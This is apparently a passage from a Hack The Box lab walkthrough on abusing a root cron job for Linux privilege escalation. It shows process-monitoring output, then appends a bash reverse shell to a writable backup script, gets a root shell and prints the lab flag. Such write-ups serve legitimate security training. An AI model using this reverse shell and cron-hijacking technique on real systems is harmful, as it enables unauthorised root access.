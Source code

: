 ```
2023/07/16 12:27:14 CMD: UID=0     PID=971    | /usr/bin/VGAuthService 
2023/07/16 12:27:14 CMD: UID=0     PID=968    | /usr/sbin/acpid 
2023/07/16 12:27:14 CMD: UID=1     PID=966    | /usr/sbin/atd -f 
2023/07/16 12:27:14 CMD: UID=104   PID=963    | /usr/sbin/rsyslogd -n 
2023/07/16 12:27:14 CMD: UID=0     PID=959    | /lib/systemd/systemd-logind 
2023/07/16 12:27:14 CMD: UID=0     PID=957    | /usr/lib/accountsservice/accounts-daemon 
2023/07/16 12:27:14 CMD: UID=107   PID=948    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2023/07/16 12:27:14 CMD: UID=0     PID=945    | /usr/sbin/cron -f 
2023/07/16 12:27:14 CMD: UID=0     PID=924    | /sbin/rpcbind -f -w 
2023/07/16 12:27:14 CMD: UID=0     PID=824    | /usr/sbin/rpc.idmapd 
2023/07/16 12:27:14 CMD: UID=100   PID=814    | /lib/systemd/systemd-timesyncd 
2023/07/16 12:27:14 CMD: UID=0     PID=776    | /usr/bin/vmtoolsd 
2023/07/16 12:27:14 CMD: UID=0     PID=525    | vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid 
2023/07/16 12:27:14 CMD: UID=0     PID=519    | /lib/systemd/systemd-udevd 
2023/07/16 12:27:14 CMD: UID=0     PID=510    | /sbin/lvmetad -f 
<SNIP> 
2023/07/16 12:27:14 CMD: UID=0     PID=1      | /sbin/init 
2023/07/16 12:28:01 CMD: UID=0     PID=1618   | date +%-Y%-m%-d 
2023/07/16 12:28:01 CMD: UID=0     PID=1617   | /bin/bash /dmz-backups/backup.sh 
2023/07/16 12:28:01 CMD: UID=0     PID=1616   | /bin/sh -c /dmz-backups/backup.sh 
2023/07/16 12:28:01 CMD: UID=0     PID=1615   | /usr/sbin/CRON -f 
2023/07/16 12:28:01 CMD: UID=0     PID=1620   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-2023716-12:28:01.tgz /var/www/html 
2023/07/16 12:28:01 CMD: UID=0     PID=1621   | gzip
```

```bash
htb-student@NIX02:/dmz-backups$ echo "bash -i >& /dev/tcp/10.10.14.2/7890 0>&1" >> backup.sh 
htb-student@NIX02:/dmz-backups$ cat backup.sh 
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
bash -i >& /dev/tcp/10.10.14.2/7890 0>&1
```

wait for 3 minuites and we got the shell as root

```bash
root@NIX02:~# cat /root/cron_abuse/flag.txt
cat /root/cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

